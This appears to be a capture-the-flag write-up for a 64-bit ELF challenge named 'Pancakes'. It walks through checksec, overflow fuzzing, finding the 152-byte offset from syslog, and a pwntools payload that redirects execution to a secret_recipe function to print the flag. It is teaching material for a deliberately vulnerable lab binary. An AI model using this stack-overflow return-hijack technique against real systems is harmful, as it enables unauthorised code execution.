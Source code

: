 # Pancakes

## Problem

> How many flap-jacks are on your stack?<br><br>
Connect with:<br>
`nc jh2i.com 50021`

[pancakes](pancakes)

## Solution

We are given an ELF 64-bit LSB executable. Normally, we would want to reverse-engineer or decompile the binary in order to understand what it does. However, this is an easy challenge, and we will try to solve it without any reverse engineering.

When running the binary, we are asked to provide some input:

```console
> ./pancakes
Welcome to the pancake stacker!
How many pancakes do you want?
```

Let's start by running `checksec` against the binary to get an idea of the protection mechanisms present.

```console
> checksec pancakes 2> >(sed '3,6!d')
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

We can proceed to test if the binary is vulnerable to buffer overflow by providing a very long string as the input:

```console
> python -c "print('A' * 200)" | ./pancakes
Welcome to the pancake stacker!
How many pancakes do you want?
Cooking your cakes.....
Smothering them in butter.....
Drowning them in syrup.....
They're ready! Our waiters are bringing them out now...
        _____________
       /    ___      \
      ||    \__\     ||
      ||      _      ||
      |\     / \     /|
      \ \___/ ^ \___/ /
      \\____/_^_\____//_
    __\\____/_^_\____// \
   /   \____/_^_\____/ \ \
  //                   , /
  \\___________   ____  /
               \_______/

[1]    7878 done                python -c "print('A' * 200)" | 
       7879 segmentation fault  ./pancakes
```

We see a segmentation fault. Indeed, the binary is vulnerable.

We can now tail the system logs to see if we were able to override the instruction pointer:

```console
> tail -1 /var/log/syslog
Aug  2 15:56:58 kali kernel: [21197.078532] traps: pancakes[7919] general protection fault ip:40098a sp:7fff0d13d058 error:0 in pancakes[400000+1000]
```

Judging by the "traps" message, it seems that we overflowed the buffer way too much.

Let's try again with a smaller input.

```console
> python -c "print('A' * 155)" | ./pancakes
Welcome to the pancake stacker!
How many pancakes do you want?
Cooking your cakes.....
Smothering them in butter.....
Drowning them in syrup.....
They're ready! Our waiters are bringing them out now...
        _____________
       /    ___      \
      ||    \__\     ||
      ||      _      ||
      |\     / \     /|
      \ \___/ ^ \___/ /
      \\____/_^_\____//_
    __\\____/_^_\____// \
   /   \____/_^_\____/ \ \
  //                   , /
  \\___________   ____  /
               \_______/

[1]    7959 done                python -c "print('A' * 155)" | 
       7960 segmentation fault  ./pancakes
> tail -2 /var/log/syslog
Aug  2 16:01:00 kali kernel: [21439.310210] pancakes[7960]: segfault at 7f7700414141 ip 00007f7700414141 sp 00007fff7f31cf50 error 14 in libc-2.30.so[7f77e5d63000+25000]
Aug  2 16:01:00 kali kernel: [21439.310249] Code: Bad RIP value.
```

We can see some `41`s in the instruction pointer, which is the hex value of A. Since we passed an input which is 155 characters long, and we overwrote the instruction pointer by 3 `A`s, we can identify that the offset is 152.

If we override the instruction pointer with the address of a function of our choice, that function will be called.

Let's look at the list of symbols in the text (code) section of the binary:

```console
> nm -an pancakes | c++filt | grep " T "
0000000000400648 T _init
0000000000400700 T _start
0000000000400730 T _dl_relocate_static_pie
00000000004007e7 T main
000000000040098b T secret_recipe
0000000000400a00 T __libc_csu_init
0000000000400a70 T __libc_csu_fini
0000000000400a74 T _fini
```

The `secret_recipe` function looks interesting.

Let's note its address and write a Python script to call it with the help of pwntools.

[Python script](solver.py)

```console
> ./solver.py
[+] Starting local process './pancakes': pid 8234
Welcome to the pancake stacker!
How many pancakes do you want?

[>] Sending payload aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaab    @\x00\x00\x00...
[*] Switching to interactive mode
Cooking your cakes.....
Smothering them in butter.....
Drowning them in syrup.....
They're ready! Our waiters are bringing them out now...
        _____________
       /    ___      \
      ||    \__\     ||
      ||      _      ||
      |\     / \     /|
      \ \___/ ^ \___/ /
      \\____/_^_\____//_
    __\\____/_^_\____// \
   /   \____/_^_\____/ \ \
  //                   , /
  \\___________   ____  /
               \_______/

[*] Got EOF while reading in interactive
$
```

It seems that the `secret_recipe` function didn't do anything. Before we try to reverse-engineer the function's code, let's try to create a dummy `flag.txt` file. Since this is a CTF, there is a big chance that `secret_recipe` reads the contents of a file called `flag.txt`.

```console
> echo "flag{test}" > flag.txt
> ./solver.py
[+] Starting local process './pancakes': pid 8234
Welcome to the pancake stacker!
How many pancakes do you want?

[>] Sending payload aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaab    @\x00\x00\x00...
[*] Switching to interactive mode
Cooking your cakes.....
Smothering them in butter.....
Drowning them in syrup.....
They're ready! Our waiters are bringing them out now...
        _____________
       /    ___      \
      ||    \__\     ||
      ||      _      ||
      |\     / \     /|
      \ \___/ ^ \___/ /
      \\____/_^_\____//_
    __\\____/_^_\____// \
   /   \____/_^_\____/ \ \
  //                   , /
  \\___________   ____  /
               \_______/

flag{test}

[*] Got EOF while reading in interactive
$
```

Our assumption was correct, it was a simple ret2win.
